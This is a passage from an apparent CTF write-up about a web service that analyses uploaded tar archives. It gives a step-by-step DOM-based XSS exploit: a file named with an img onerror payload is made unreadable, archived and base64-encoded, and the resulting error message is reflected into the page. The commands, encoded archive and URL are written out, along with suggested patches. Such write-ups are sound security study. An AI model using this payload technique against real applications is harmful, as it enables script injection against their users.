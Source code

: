 #### Patch

I'm not sure if this is a bulletproof fix, but checking the tar file before unpacking it to avoid the presence of .py files seems to be a good enough solution during the CTF.

### Vuln 8 - DOM-based XSS via reflected exception message caused by unreadable files

Exceptions, or anything that prints to stderr, are *sometimes* rendered to the DOM inside the `out` div. Basically, any exception that reflects in the message part of the user-provided input can turn into an XSS. One approach is to trigger a `PermissionError` exception packing an unreadable file, as follows.

1. Create an unreadable file with permissions `000` called `<img src=fff onerror=alert(1)>`
2. Make an archive it
3. Serialize it manually and send it
4. The exception message should be printed in the page and trigger the XSS via `PermissionError: [Errno 2] Permission denied: './<img src=fff onerror=alert(1)>`

Full example:
```
$ touch '<img src=fff onerror=alert(1)>'
$ chmod 000 '<img src=fff onerror=alert(1)>'
$ sudo tar -zcvf expl.tar.gz '<img src=fff onerror=alert(1)>'
<img src=fff onerror=alert(1)>
$ echo -n 'expl.tar.gz' | base64 
ZXhwbC50YXIuZ3o=
$ cat expl.tar.gz | base64
H4sIAAAAAAAAA+3NsQrCQBCE4X2ULbW7NTnSGN/lCDkNRAN70edXCRYWahOs/q+YKXZh9sP5qMW7
Nues06V3n7xNY+/zxrYHWUVYPNua+NYvYnUVaquCRZNHxGYnGtaZ/+5a5uSqMqbbUE6f/37dAQAA
AAAAAAAAAAAAAAD4ozt4mNbVACgAAA==
```

Final URL: http://localtest.me:10010/analyze#ZXhwbC50YXIuZ3o=@H4sIAAAAAAAAA+3NsQrCQBCE4X2ULbW7NTnSGN/lCDkNRAN70edXCRYWahOs/q+YKXZh9sP5qMW7Nues06V3n7xNY+/zxrYHWUVYPNua+NYvYnUVaquCRZNHxGYnGtaZ/+5a5uSqMqbbUE6f/37dAQAAAAAAAAAAAAAAAAD4ozt4mNbVACgAAA==

#### Patch

Suppressing the exception message via a `try... Except:` construct seems to be the best option.

